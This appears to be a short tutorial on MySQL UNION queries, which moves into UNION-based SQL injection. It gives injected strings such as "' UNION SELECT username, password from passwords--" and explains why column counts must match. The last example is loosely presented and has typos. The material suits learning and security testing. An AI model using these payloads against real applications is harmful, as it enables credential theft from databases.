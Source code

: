 The [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements.

```shell-session
mysql> SELECT * FROM ports;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| ZZ-21    | Shenzhen  |
+----------+-----------+
3 rows in set (0.00 sec)
```

```shell-session
mysql> SELECT * FROM ships;

+----------+-----------+
| Ship     | city      |
+----------+-----------+
| Morrison | New York  |
+----------+-----------+
1 rows in set (0.00 sec)
```

## UNION

```shell
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)
```

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

The above query would return `username` and `password` entries from the `passwords` table, assuming the `products` table has two columns.

## Uneven Columns
When using a **`UNION SELECT`** injection, your goal is to **merge your custom query with the original query**. For it to work properly:

👉 The number of columns **must match** between both queries.
If not, SQL will throw an error like:

`ERROR: The used SELECT statements have a different number of columns`


EXMPLE

```sql 

ORIGINA: SELECT * FROM products WHERE product_id = '1'


INJECT: ' UNION SELECT username FROM users-- 


QUERY: SELECT * FROM products WHERE product_id = '1' UNION SELECT username FROM users







```